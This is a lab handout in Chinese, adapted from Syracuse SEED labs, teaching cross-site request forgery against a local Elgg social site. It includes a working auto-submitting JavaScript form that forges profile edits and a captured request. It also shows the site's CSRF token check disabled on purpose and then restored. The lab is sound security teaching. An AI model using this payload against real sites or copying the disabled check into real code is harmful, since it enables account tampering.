

# 第 1 节 Elgg 系统 CSRF 攻击实验

## 实验介绍

本次实验主要用于帮助学生理解跨站请求伪造（CSRF 或 XSRF）攻击。

CSRF 攻击涉及用户受害者,受信任的网站,恶意网站。受害者与受信任的站点和用户拥有一个活跃的会话同时访问恶意网站。恶意网站注入一个 HTTP 请求为受信任的站点到受害者用户会话牺牲其完整性。

## 实验背景

CSRF 攻击总是涉及到三个角色:信赖的网站（Collabtive）、受害者的 session 或 cookie 以及一个恶意网站。受害者会同时访问恶意网站与受信任的站点会话的时候。攻击包括一系列步骤，如下:

>1\. 受害者用户使用他/她的用户名和密码登录到可信站点,从而创建一个新的会话。

>2\. 受信任站点存储受害者会话的 cookie 或 session 在受害者用户的 web 浏览器端。

>3\. 受害者用户在不退出信任网站时就去访问恶意网站。

>4\. 恶意网站的网页发送一个请求到受害者的受信任的站点用户的浏览器。

>5\. web 浏览器将自动连接会话 cookie，因为它是恶意的要求针对可信站点。

>6\. 受信任的站点如果受到 CSRF 攻击，攻击者的一些恶意的请求会被攻击者发送给信任站点。

恶意网站可以建立 HTTP GET 或 POST 请求到受信任的站点。一些 HTML 标签,比如 img iframe,框架,形式没有限制的 URL,可以在他们的使用属性中。img,iframe,框架可用于构造 GET 请求。HTML 表单标签可用于构造 POST 请求。构造 GET 请求是相对容易的,因为它甚至不需要 JavaScript 的帮助;构造 POST 请求需要 JavaScript。因为 Collabtive 只针对后者,本实验室的任务将只涉及 HTTP POST 请求。

## 预备知识：什么是 CSRF

[百度百科--CSRF](http://baike.baidu.com/link?url=h64nEfsH4Ok8FiOlsEcJuO8UUzbBSy9MeepkimruEVTv0wE7gM54P-0C1tTlUlylwqUXKxK0NBSP6eeyT_Qt7_)

CSRF(Cross-site request forgery)：中文名称：跨站请求伪造，也被称为：one click attack/session riding，缩写为：CSRF/XSRF；

作用：攻击者盗用了你的身份，以你的名义发送恶意请求；

危害：造成的危害包括：个人隐私泄露以及财产安全，以受害者的名义发送邮件、消息、盗取账号，甚至于购买商品，虚拟货币转账等。

## 环境搭建

启动 mysql 服务器：

```
 sudo mysqld_safe 
```

> 密码：dees

启动服务：

```
 sudo service apache2 start 
```

>密码：dees

配置 DNS 解析：

```
 sudo vim /etc/hosts 
```

> 密码：dees

> vim 文件编辑：(详细请大家学习 Linux 的课程)

> 按 i 进入编辑模式

> 按 Esc 退出编辑模式

> 使用 :wq 退出 vim 编辑器


网站配置：

```
 sudo vim /etc/apache2/conf.d/lab.conf 
```

>密码：dees


重启服务：

```
 sudo service apache2 restart 
```

> 密码：dees

打开 firefox 浏览器，访问测试：


登陆账户：

```
user    UserName    Password
Admin   admin       seedelgg
Alice   alice       seedalice
Boby    boby        seedboby    
Charlie charlie     seedcharlie 
Samy    samy        seedsamy 
```

## 实验任务

### lab1 添加好友

实验内容：两个用户，Alice 与 Boby。Boby 想与 Alice 成为好友，但是 Alice 拒绝添加 Boby；这时 Boby 需要发送一个 URL 给 Alice，当 Alice 访问这个 URL 后，Boby 就自动添加到好友列表中（注意 Alice 不用点击任何东西，只要访问 URL 就自动添加好友）。

首先我们要知道如何添加用户：

> 使用 admin seedelgg 进行登录，然后添加 boby 用户；




然后我们需要知道，添加用户时是使用的什么请求；使用 LiveHttpHeader 抓包：

>LiveHttpHeader 使用指南：

> 点击 Firefox 菜单栏中 Tools；

> 点击 LiveHttpHeader

> 勾选 Capture

> 点击 add friend


分析抓取到的数据包：


添加 boby 用户的链接,例如：

```
http://www.csrflabelgg.com/action/friends/add?friend=40&__elgg_ts=1429794173&__elgg_token=194fee1a60560fd22f06943948fd9ee1 
```

这样我们就可以构造一个页面，让 Alice 用户访问以后，就会添加 boby 为好友。

```
 sudo vim /var/www/CSRF/Attacker/hack.html 
```

输入下面代码：

```
 <html>
    
    </html> 
```

Alice 用户访问前：


Alice 用户访问：www.csrflabattacker.com/hack.html


Alice 用户访问后：


### lab2 修改用户信息

实验内容：Alice 用户有一个自己的描述，她希望 Boby 也编辑自己的描述，但是 Boby 用户拒绝了，这时 Alice 想通过发送一个 url 让 Boby 用户访问后，自动让 Boby 自动添加自己的描述。

首先我们需要知道编辑自己的描述需要的请求,同样使用 LiveHttpHeader 抓包：

使用 alice seedalice 登录，点击左上角的头像；进入用户界面，点击 Edit Profile 可以编辑自己的描述；

> 打开 Firefox 菜单栏的 Tools 中的 LiveHttpHeader > 勾选 Capture > 编辑用户资料，点击 sava；


这里是抓取到的数据包：

```
 POST /action/profile/edit HTTP/1.1
    Host: www.csrflabelgg.com
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:23.0) Gecko/20100101 Firefox/23.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://www.csrflabelgg.com/profile/alice/edit
    Cookie: Elgg=ks91qtcsis87selokqauqt96p1
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 569
    __elgg_token=17fb7abf0ec7666aae76d5b03372203f&__elgg_ts=1429842430&name=Alice&description=%3Cp%3Etest%3C%2Fp%3E&accesslevel%5Bdescription%5D=2&briefdescription=test&accesslevel%5Bbriefdescription%5D=2&location=test&accesslevel%5Blocation%5D=2&interests=test&accesslevel%5Binterests%5D=2&skills=test&accesslevel%5Bskills%5D=2&contactemail=test%40email.com&accesslevel%5Bcontactemail%5D=2&phone=123456&accesslevel%5Bphone%5D=2&mobile=123456&accesslevel%5Bmobile%5D=2&website=http%3A%2F%2Ftest.com&accesslevel%5Bwebsite%5D=2&twitter=test&accesslevel%5Btwitter%5D=2&guid=39 
```

通过分析我们可以得知编辑用户需要的请求，其中最重要的就是 guid，用户的 id 标识符；于是 Alice 就写了如下代码并发送给 Boby 用户进行攻击.

```
 sudo vim /var/www/CSRF/Attacker/csrf.html 
```

这里是代码：

```
 <html><body><h1>
    This page forges an HTTP POST request.
    </h1>
    <script type="text/javascript">
    function post(url,fields)
    {
        //create a <form> element.
        var p = document.createElement("form");
        //construct the form
        p.action = url;
        p.innerHTML = fields;
        p.target = "_self";
        p.method = "post";

        //append the form to the current page.
        document.body.appendChild(p);
        //submit the form
        p.submit();
    }
    function csrf_hack()
    {
        var fields;
        // The following are form entries that need to be filled out
        // by attackers. The entries are made hidden, so the victim
        // won't be able to see them.
        fields += "<input type='hidden' name='name' value='Boby'>";
        fields += "<input type='hidden' name='description' value='test'>";
        fields += "<input type='hidden' name='accesslevel[description]' value='2'>";
        fields += "<input type='hidden' name='briefdescription' value='test'>";
        fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
        fields += "<input type='hidden' name='location' value='test'>";
        fields += "<input type='hidden' name='accesslevel[location]' value='2'>";
        fields += "<input type='hidden' name='guid' value='40'>";
        var url = "http://www.csrflabelgg.com/action/profile/edit";
        post(url,fields);
    }
    // invoke csrf_hack() after the page is loaded.
    window.onload = function() { csrf_hack();}
    </script>
    </body></html> 
```

Boby 用户访问前：


Boby 用户访问攻击 url：www.csrflabattacker.com/csrf.html


Boby 用户访问后：


#### 思考

问题 1：Alice 用户使用 csrf 攻击 boby 用户，需要知道 Boby 用户的 guid，但是 Alice 没有 Boby 的密码，她可以通过什么办法来获取 Boby 用户的 guid？

> Alice 可以先通过一个类似实验 1 这样的 CSRF 攻击来获取 Boby 用户的 guid。

问题 2：如果 Alice 想通过发送一个 URL，不论是谁点击，谁就会受到 CSRF 攻击，受害者就会自动修改自己的资料，请解释一下要如何成功做到这样？

> 首先，要是 CSRF 攻击成功的前提是必须拥有用户的 guid，我们可以通过使用 csrf 来先获取用户的 guid，然后自动提交到 guid 的位置，这样不论是谁，只要他没有退出 elgg 系统，就访问了我们的攻击 url 就会自动编辑他们的资料；

### lab3 Elgg 系统的 CSRF 防御

Elgg 系统中有一个针对 CSRF 内置的防御机制，上面的实验，我们注释了防御机制来攻击的！

针对 CSRF 的防御并不难，这里有几个常见的方法：

> 加密令牌：web 应用程序可以在网页中嵌入一个加密的令牌，所有的请求都包含这个加密令牌，由于跨站请求无法获取这个令牌，所以伪造的请求很容易就被服务器识别；

> Referer 头途径：使用 web 应用程序也可以验证请求来源页面的 Referer，然后由于隐私考虑，这个 referer 经常被客户端过滤；

Elgg 系统就是使用 加密令牌 机制保护系统；它嵌入两个参数 *_elgg*ts 和 *_elgg*token，这个我们在之前的 LiveHttpHeader 抓包中可以看到；

对于所有用户操作，都有如下的代码来保护用户要执行的操作：

```
 <input type = "hidden" name = "__elgg_ts" value = "" />
    <input type = "hidden" name = "__elgg_token" value = "" /> 
```

下面的代码显示如何将上面的保护代码动态添加到 web 页面：

```
 sudo vim /var/www/CSRF/elgg/views/default/input/securitytoken.php 
```

这里是代码：

```
 <?php
    /**
     * CSRF security token view for use with secure forms.
     *
     * It is still recommended that you use input/form.
     *
     * @package Elgg
     * @subpackage Core
     */

    $ts = time();
    $token = generate_action_token($ts);

    echo elgg_view('input/hidden', array('name' => '__elgg_token', 'value' => $token));
    echo elgg_view('input/hidden', array('name' => '__elgg_ts', 'value' => $ts)); 
```

上面的防御其实并不够，我们还可以通过给 加密参数，时间戳，用户 sessionID 加上 HASH 函数；在 elgg 系统中就有这样的机制。

> hash 函数：一般翻译做"散列"，也有直接音译为"哈希"的，就是把任意长度的输入（又叫做预映射， pre-image），通过散列算法，变换成固定长度的输出，该输出就是散列值。这种转换是一种压缩映射，也就是，散列值的空间通常远小于输入的空间，不同的输入可能会散列成相同的输出，而不可能从散列值来唯一的确定输入值。简单的说就是一种将任意长度的消息压缩到某一固定长度的消息摘要的函数。

step1:我们来看加密令牌的生成：

```
 function generate_action_token($timestamp)
    {
        $site_secret = get_site_secret();
        $session_id = session_id();
        // Session token
        $st = $_SESSION[’__elgg_session’];
        if (($site_secret) && ($session_id))
        {
            return md5($site_secret . $timestamp . $session_id . $st);
        }
        return FALSE;
    } 
```

step2:会话 sessionID 的随机值产生：

```
 .........
    ........
    // Generate a simple token (private from potentially public session id)
    if (!isset($_SESSION[’__elgg_session’])) {
        $_SESSION[’__elgg_session’] = ElggCrypto::getRandomString(32,ElggCrypto::CHARS_HEX);
    ........
    ........ 
```

step3:加密令牌的验证(elgg 应用程序验证生成的令牌和时间戳来抵御 CSRF 攻击，每一个用户都有一个验证机制，如果令牌不存在或失效，用户操作将被拒绝并被重定向)。下面是验证机制代码：

```
 function validate_action_token($visibleerrors = TRUE, $token = NULL, $ts = NULL)
    {
        if (!$token) { $token = get_input(’__elgg_token’); }
        if (!$ts) {$ts = get_input(’__elgg_ts’); }
        $session_id = session_id();
        if (($token) && ($ts) && ($session_id)) {
            // generate token, check with input and forward if invalid
            $required_token = generate_action_token($ts);

            // Validate token
            if ($token == $required_token) {

                if (_elgg_validate_token_timestamp($ts)) {
                // We have already got this far, so unless anything
                // else says something to the contrary we assume we’re ok
                $returnval = true;
                ........
                ........
                }
            Else {
                ........
                ........
                register_error(elgg_echo(’actiongatekeeper:tokeninvalid’));
            ........
            ........
        }
        ........
        ........
    } 
```

step4:打开 elgg 系统的防御策略：

```
 sudo vim /var/www/CSRF/elgg/engine/lib/actions.php 
```

在 307 行，原始代码：

```
 function action_gatekeeper($action) {

            //SEED:Modified to enable CSRF.
            //Comment the below return true statement to enable countermeasure.
            return true;

            if ($action === 'login') {
                    if (validate_action_token(false)) {
                            return true;
                    }

                    $token = get_input('__elgg_token');
                    $ts = (int)get_input('__elgg_ts');
                    if ($token && _elgg_validate_token_timestamp($ts)) {
                            // The tokens are present and the time looks valid: this is probably a mismatch due to the 
                            // login form being on a different domain.
                            register_error(elgg_echo('actiongatekeeper:crosssitelogin'));

                            forward('login', 'csrf');
                    }

                    // let the validator send an appropriate msg
                    validate_action_token();

            } elseif (validate_action_token()) {
                    return true;
            }

            forward(REFERER, 'csrf');
    } 
```

注释掉 return true：

``` function action_gatekeeper($action) {

```
 //SEED:Modified to enable CSRF.
        //Comment the below return true statement to enable countermeasure.
        #return true;

        if ($action === 'login') {
                if (validate_action_token(false)) {
                        return true;
                }

                $token = get_input('__elgg_token');
                $ts = (int)get_input('__elgg_ts');
                if ($token && _elgg_validate_token_timestamp($ts)) {
                        // The tokens are present and the time looks valid: this is probably a mismatch due to the 
                        // login form being on a different domain.
                        register_error(elgg_echo('actiongatekeeper:crosssitelogin'));

                        forward('login', 'csrf');
                }

                // let the validator send an appropriate msg
                validate_action_token();

        } elseif (validate_action_token()) {
                return true;
        }

        forward(REFERER, 'csrf');
}
``` 
```

接着再次尝试 CSRF 攻击将失效！

## 作业

你需要提交一份详细的实验报告来描述你做了什么和你所学到的。

请提供使用 LiveHTTPHeaders 的使用细节或屏幕截图。

您还需要提供有趣的或令人惊讶的解释。

## license

本实验所涉及的实验环境来自[Syracuse SEED labs](http://www.cis.syr.edu/~wedu/seed/)，并在此基础上为适配实验室我那工作环境进行修改，修改后的实验文档仍然遵循 GUN Free Documentation License

附[Syracuse SEED labs](http://www.cis.syr.edu/~wedu/seed/)版权说明：

Copyright

c 2006 - 2011 Wenliang Du, Syracuse University. The development of this document is/was funded by three grants from the US National Science Foundation: Awards No. 0231122 and 0618680 from TUES/CCLI and Award No. 1017771 from Trustworthy Computing. Permission is granted to copy, distribute and/or modify this document under the terms of the GNU Free Documentation License, Version 1.2 or any later version published by the Free Software Foundation. A copy of the license can be found at http://www.gnu.org/licenses/fdl.html.